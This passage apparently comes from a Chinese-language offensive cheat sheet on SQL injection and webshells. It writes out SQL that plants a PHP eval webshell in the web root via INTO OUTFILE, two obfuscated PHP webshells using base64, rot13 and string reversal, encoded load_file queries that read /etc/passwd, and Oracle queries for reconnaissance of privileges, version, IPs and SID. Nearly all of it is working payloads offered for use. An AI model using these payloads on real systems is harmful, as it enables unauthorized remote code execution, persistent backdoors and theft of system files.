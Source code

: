 ````
INSERT INTO a (cmd) VALUES('<?php eval($_POST['password']);?>');
导出一句话
SELECT cmd from a into outfile '/var/www/tmp/xxx.php';
删除表
Drop TABLE IF EXISTS a;
````
````
<?php @($_=base64_decode($_POST[1])),$_(hex2bin($_POST[2]))?>

<?php if(isset($_REQUEST['error'])&&isset($_REQUEST['limit'])){
    $page = $_REQUEST['error'];
    $limit = $_REQUEST['limit'];
    $func = base64_decode(str_rot13(strrev($limit)));
    $func(base64_decode(str_rot13(strrev($page))));
    exit;
````
### 2.文件读取
需要高权限
````
select load_file('绝对路径')

#读取/etc/passwd并用空格替换<
replace(load_file(0×2F6574632F706173737764),0×3c,0×20) 

replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))
````

## 0x10 常用命令
### 1.oracle常用命令
````
1 当前用户权限 （select * from session_roles）
2 当前数据库版本 （ select banner from sys.v_$version where rownum=1）
3 服务器出口IP （用utl_http.request 可以实现）
4 服务器监听IP （select utl_inaddr.get_host_address from dual）
5 服务器操作系统 （select member from v$logfile where rownum=1）
6 服务器sid ( 远程连接的话需要， select instance_name fromv$instance;）
7 当前连接用户 （select SYS_CONTEXT ('USERENV', 'CURRENT_USER')from dual）
````